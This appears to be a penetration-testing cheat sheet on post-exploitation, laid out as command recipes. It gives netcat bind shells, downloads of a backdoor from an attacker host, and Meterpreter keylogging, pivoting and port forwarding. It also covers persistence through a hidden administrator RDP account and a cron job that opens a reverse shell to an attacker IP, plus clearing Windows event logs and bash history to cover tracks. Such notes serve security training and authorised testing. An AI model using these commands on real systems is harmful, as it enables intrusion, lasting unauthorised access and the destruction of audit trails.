 # Post-Exploitation

## General

### Bind Shell

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.

<pre class="language-sh"><code class="lang-sh"># Windows (target)
nc -nvlp &#x3C;port> -e cmd.exe 
nc.exe -nvlp &#x3C;port> -e cmd.exe

# Linux (target)
nc -nvlp &#x3C;port> -e /bin/bash

<strong># Linux (attacker)
</strong>nc -nv &#x3C;ip> &#x3C;port>

<strong>#Windows (attacker)
</strong>nc.exe -nv &#x3C;ip> &#x3C;port>
</code></pre>

### Transfer files

```sh
# HTTP Windows
certutil -urlcache -f http://<host>/backdoor.php backdoor.php
# HTTP Linux
wget http://<host>/backdoor.php

# Netcat [useful when the victim cannot reach you, but you can]
nc -nvlp <target_port> > backdoor.php         # [recepient]
nc -w 3 <ip> <target_port> < backdoor.php    # [sender]
# Netcat tips
pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] Progress Indicator (install pv)
md5sum backdoor.php && pv backdoor.php | nc -w 3 <ip> <target_port> # [sender] also check md5
nc -nvlp <target_port> > backdoor.php && md5sum backdoor.php # [recepient] also check md5
# Note "-n" option means no DNS (only IP)
```

### Interactive shell

```sh
/bin/bash -i # Linux
```

### Fully interactive shell (python)

```sh
# 1 Step
python3 -c 'import pty;pty.spawn("/bin/bash")' 
python -c 'import pty;pty.spawn("/bin/bash")'

# 2 Step
CTRL + Z # Press CTRL + Z to background process and get back to your host machine

# 3 Step
stty raw -echo; fg

# 4 Step
export TERM=xterm
```

### Keylogger

```sh
# With metasploit
keyscan_start          # start keylogger
keyscan_dump print     # captured strokes
```

### Pivoting & Port forwarding

* Metasploit (in meterpreter)
  * `ipconfig` find subnet (the host may be in other network)
  * `run autoroute -s <subnet>`  (subnet of the internal network). **This means anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.**
    * Example:
      * `ipconfig`  IP 19.9.29.148. Netmask: 255.255.240.0
      * `run autoroute -s 10.10.0.29.0/20`
  * `run autoroute -p` Displays active routing table.
  * auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
  * **since target\_sys\_2 does not have a route back to attacker\_sys, use bind\_shell payload** : windows/meterpreter/bind\_tcp
* Port forwarding (meterpreter/metasploit)
  * `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>`  Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  * `portfwd list`
  * `nmap -sV -sC -p 1234 localhost`

## Windows

### Persistence

* Metasploit
  * search persistence module (Windows)
  * Ex: exploit/windows/local/persistence\_service
    * It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
    * When you want to connect again you need to set a listener to receive the connection
* Enable RDP
  * with metasploit : search enable\_rdp (and set session)
    * Connect to victim from attacker
      * Note: you need username and password, if you don't have the password, change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      * Note 2: you can create a new account and add it to administrator group...
  * second way with metasploit/meterpreter (auto create account and settings):
    * In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      * enables rdp service -> creates new user with the provided parameters -> hides user from windows login screen -> adds user to Remote Desktop Users and Administrators group.

### Clearing tracks

```sh
# Metasploit/Meterpreter
clearev  # clear the Application, System, and Security logs on a Windows system
```

## Linux

### Persistence

* Metasploit
  * search persistence module (Linux)
    * Example: post/linux/manage/sshkey\_persistence (needed elevated privs - This module will add an SSH key to a specified user)
* Via SSH key
  * After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
* With cron jobs
  * Set up listener
  * `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` create a cronjob (every minute time format)
  * `crontab -i cron`
  * `crontab -l`  crontab for the current user
  * NOTE: if the command doesn't work try with another one... revshell

### Clearing tracks

```sh
history -c                          # clear history
cat /dev/null > ~/.bash_history     # same as above
```
